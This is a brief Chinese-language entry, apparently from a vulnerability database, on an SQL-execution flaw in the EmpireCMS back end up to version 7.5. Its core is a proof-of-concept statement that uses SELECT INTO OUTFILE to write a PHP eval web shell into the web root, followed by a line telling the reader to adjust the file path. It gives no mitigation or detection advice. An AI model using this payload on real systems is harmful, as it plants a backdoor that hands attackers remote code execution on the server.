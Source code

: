 ```yaml
---
title: 'EmpireCMS.assets'
date: Tue, 08 Sep 2020 13:42:30 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞范围

EmpireCMS.assets <= V7.5

### 漏洞验证

由于后端没有对执行的语句做限制导致可以执行恶意sql语句。 ![](EmpireCMS.assets/HOH@WWOHVQOVSR5K9.png) POC：

```
select '<?php @eval($_POST[1])?>' into outfile 'D:/phpstudy_pro/WWW/shell.php'
```

根据实际路径修改路径即可。 ![](EmpireCMS.assets/7MGWYGAV0VX0AO6JNOC3.png)